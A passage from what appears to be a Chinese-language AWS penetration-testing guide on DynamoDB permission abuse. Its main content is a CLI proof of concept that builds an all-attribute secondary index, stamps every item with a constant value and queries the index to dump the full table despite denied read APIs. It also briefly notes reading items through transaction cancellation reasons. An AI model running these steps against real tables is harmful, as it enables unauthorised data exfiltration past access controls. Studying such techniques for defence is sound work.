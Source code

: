 权限：`dynamodb:TransactWriteItems` 在目标表（以及其底层项）上。 不需要读取权限。

潜在影响：通过返回的取消原因，仅凭事务写入权限读取表中任意项（按主键）。


### `dynamodb:UpdateTable` + `dynamodb:UpdateItem` + `dynamodb:Query` on GSI

通过创建一个 Global Secondary Index (GSI)，并在低熵属性上设置 `ProjectionType=ALL`，将该属性在所有项中设为常量，然后 `Query` 索引以检索完整项，从而绕过读取限制。即便对基础表的 `Query`/`Scan` 被拒绝，只要你可以查询索引的 ARN，此方法仍然有效。

- 最低权限：
- `dynamodb:UpdateTable` 在目标表上（用于创建具有 `ProjectionType=ALL` 的 GSI）。
- `dynamodb:UpdateItem` 在目标表键上（用于为每个项设置被索引的属性）。
- `dynamodb:Query` 在索引资源 ARN 上（`arn:aws:dynamodb:<region>:<account-id>:table/<TableName>/index/<IndexName>`）。

步骤（PoC in us-east-1）：
```bash
# 1) Create table and seed items (without the future GSI attribute)
aws dynamodb create-table --table-name HTXIdx \
--attribute-definitions AttributeName=id,AttributeType=S \
--key-schema AttributeName=id,KeyType=HASH \
--billing-mode PAY_PER_REQUEST --region us-east-1
aws dynamodb wait table-exists --table-name HTXIdx --region us-east-1
for i in 1 2 3 4 5; do \
aws dynamodb put-item --table-name HTXIdx \
--item "{\"id\":{\"S\":\"$i\"},\"secret\":{\"S\":\"sec-$i\"}}" \
--region us-east-1; done

# 2) Add GSI on attribute X with ProjectionType=ALL
aws dynamodb update-table --table-name HTXIdx \
--attribute-definitions AttributeName=X,AttributeType=S \
--global-secondary-index-updates '[{"Create":{"IndexName":"ExfilIndex","KeySchema":[{"AttributeName":"X","KeyType":"HASH"}],"Projection":{"ProjectionType":"ALL"}}}]' \
--region us-east-1
# Wait for index to become ACTIVE
aws dynamodb describe-table --table-name HTXIdx --region us-east-1 \
--query 'Table.GlobalSecondaryIndexes[?IndexName==`ExfilIndex`].IndexStatus'

# 3) Set X="dump" for each item (only UpdateItem on known keys)
for i in 1 2 3 4 5; do \
aws dynamodb update-item --table-name HTXIdx \
--key "{\"id\":{\"S\":\"$i\"}}" \
--update-expression 'SET #x = :v' \
--expression-attribute-names '{"#x":"X"}' \
--expression-attribute-values '{":v":{"S":"dump"}}' \
--region us-east-1; done

# 4) Query the index by the constant value to retrieve full items
aws dynamodb query --table-name HTXIdx --index-name ExfilIndex \
--key-condition-expression '#x = :v' \
--expression-attribute-names '{"#x":"X"}' \
--expression-attribute-values '{":v":{"S":"dump"}}' \
--region us-east-1
```
**潜在影响：** 通过查询新创建的 GSI（投影所有属性）可以实现完整表 exfiltration，即使基础表读取 API 被拒绝。

